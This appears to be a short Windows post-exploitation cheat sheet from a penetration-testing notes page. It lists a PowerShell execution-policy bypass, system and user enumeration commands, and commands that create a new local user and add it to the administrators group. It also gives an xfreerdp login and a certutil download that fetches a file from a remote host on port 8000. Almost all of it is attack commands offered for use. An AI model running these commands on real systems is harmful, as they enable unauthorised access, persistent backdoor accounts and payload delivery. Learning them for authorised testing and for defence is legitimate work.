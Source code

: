 #### 1. Powershell
  . Bypass ExecutionPolicy (cannot be loaded because running scripts is disabled on this system)
  
  ```
  powershell -ep bypass
  ```

#### 2. CMD
  ```powershell
  whoami

  systeminfo

  net user

  net user username password /add <create new username with password>

  net localgroup administrators user /add <add user to administrator group>

  net localgroup administrators <list administrators>

  wmic useraccount get name,sid

  cd $env:USERPROFILE/DESKTOP

  certutil.exe https://lolbas-project.github.io/lolbas/Binaries/Certutil/
  ```

  ```
  xfreerdp /u:username /v:ip_address

  certutil.exe -urlcache  -f http://192.168.1.1:8000/filename outputfilename
  ```  
